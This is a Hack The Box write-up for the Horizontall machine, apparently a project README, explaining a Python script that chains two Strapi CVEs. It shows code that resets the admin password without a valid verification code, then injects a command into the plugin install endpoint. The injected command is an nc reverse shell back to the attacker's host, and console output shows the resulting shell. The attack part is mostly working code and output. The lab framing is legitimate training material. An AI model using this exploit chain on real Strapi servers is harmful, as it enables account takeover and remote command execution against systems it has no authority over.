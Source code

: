 # Hack The Box. Machines. Horizontall

Machine write-up: https://7rocky.github.io/en/htb/horizontall

### `rce_strapi.py`

This Python script is based on two exploits for Strapi:

- [CVE-2019-18818](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18818): This exploit allows to reset the password of a user inside Strapi providing its email address.
- [CVE-2019-19069](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-19609): This exploit obtains Remote Command Execution (RCE) provided access to the administration panel.

There is a Python script for the first CVE that can be found [here](https://thatsn0tmysite.wordpress.com/2019/11/15/x05/). For the second CVE, there is a manual proof of concept in [this blog](https://bittherapy.net/post/strapi-framework-remote-code-execution/).

To compromise machine [Horizontall](https://7rocky.github.io/en/htb/horizontall), the purpose is to gain RCE with Strapi, but we do not have credentials for user `admin`. However, using the first exploit, we are able to reset its password and login as `admin`. Then, we will be able to run the second exploit and gain RCE.

The first exploit follows these steps:

- Show that Strapi version is 3.0.0-beta.17.x:

```python
s = requests.session()
version = json.loads(s.get(f'{url}/admin/strapiVersion').text)['strapiVersion']
print(f'[*] Detected version (GET /admin/strapiVersion): {version}')
```

- Send the reset password request for the provided email:

```python
print('[*] Sending password reset request...')
s.post(f'{url}', json={
    'email': email,
    'url': f'{url}/admin/plugins/users-permissions/auth/reset-password'
})
```

- Set the new password (here is the point where Strapi forgets to check the verification code to reset the password):

```python
print('[*] Setting new password...')
r = s.post(f'{url}/admin/auth/reset-password', json={
    'code': {}, 'password': new_password, 'passwordConfirmation': new_password
})
```

- Obtain a JWT token that shows that we are logged in as the wanted user (this time, as `admin@horizontall.htb`):

```python
print('[*] Response:', r.text)
token = r.json()['jwt']
```

The second exploit simply makes a POST request to Strapi in order to install/uninstall a plugin. However, the handler is vulnerable to command injection, so here we can get RCE (this time, we use a payload to send a reverse shell):

```python
command = f'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {lhost} {lport} >/tmp/f'

s.post(f'{url}/admin/plugins/install',
        headers={'Authorization': f'Bearer {token}'},
        data={'plugin': f'documentation && $({command})'})
```

Finally, we can run the exploit and get access to the machine as user `strapi` using `nc`:

```console
$ python3 rce_strapi.py 10.10.17.44 4444
[*] Detected version(GET /admin/strapiVersion): 3.0.0-beta.17.4
[*] Sending password reset request...
[*] Setting new password...
[*] Response: {"jwt":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwMTg5ODcyLCJleHAiOjE2MzI3ODE4NzJ9.4_HRMhnzA9CEcw6-p2uCOKJWTxpRkCiMaWiNfGDWKRc","user":{"id":3,"username":"admin","email":"admin@horizontall.htb","blocked":null}}
```

```console
$ nc -nlvp 4444
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.11.105.
Ncat: Connection from 10.10.11.105:40764.
/bin/sh: 0: can't access tty; job control turned off
$ script /dev/null -c bash
Script started, file is /dev/null
strapi@horizontall:~/myapi$
```

**Note:** The previous code snippets are shown only as an explanation, the complete source code is a bit different due to some global variables and imported libraries.
